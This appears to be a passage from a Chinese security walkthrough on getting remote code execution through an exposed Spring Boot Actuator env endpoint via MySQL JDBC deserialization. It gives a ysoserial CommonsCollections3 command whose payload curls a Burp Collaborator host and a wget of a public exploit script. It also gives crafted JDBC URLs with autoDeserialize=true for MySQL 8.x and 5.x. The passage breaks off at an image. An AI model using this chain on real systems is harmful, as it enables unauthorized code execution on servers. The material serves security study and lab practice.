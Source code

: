 查看下 pom.xml 的 mysql-connector-java 的依赖为 8.0.12,cc 依赖为 3.2.1:

```plain
<dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>8.0.12</version>
        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
            <scope>runtime</scope>
        </dependency>
```

先访问：[http://localhost:9097/actuator/env](http://localhost:9097/actuator/env)

记录好原先的`spring.datasource.url`:

```plain
[application.properties]:6:43"},"spring.datasource.url":{"value":"jdbc:mysql://127.0.0.1:3306/test","origin":"class path resource
```

利用 ysoserial 生成反序列化 payload:

```plain
java -jar ysoserial-0.0.8-SNAPSHOT-all.jar  CommonsCollections3 'curl rb617n72nqnqaj8ijbiw36v7nytohd.burpcollaborator.net' > payload.ser
```

下载 rce.py 脚本：

```plain
wget --no-check-certificate https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py
```

编辑下脚本的端口 3306 为 3307，避开本机的 3306 冲突。

**(1) 修改变量**

value 的值，mysql8.x 填入：

```plain
jdbc:mysql://127.0.0.1:3307/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

如果是 5.x 则是：

```plain
jdbc:mysql://127.0.0.1:3307/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

> 两者区别：

[![](assets/1711556137-7c8fb647b6bd571c24308e30dab01f40.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620112035-7a2cde9a-d176-1.png)
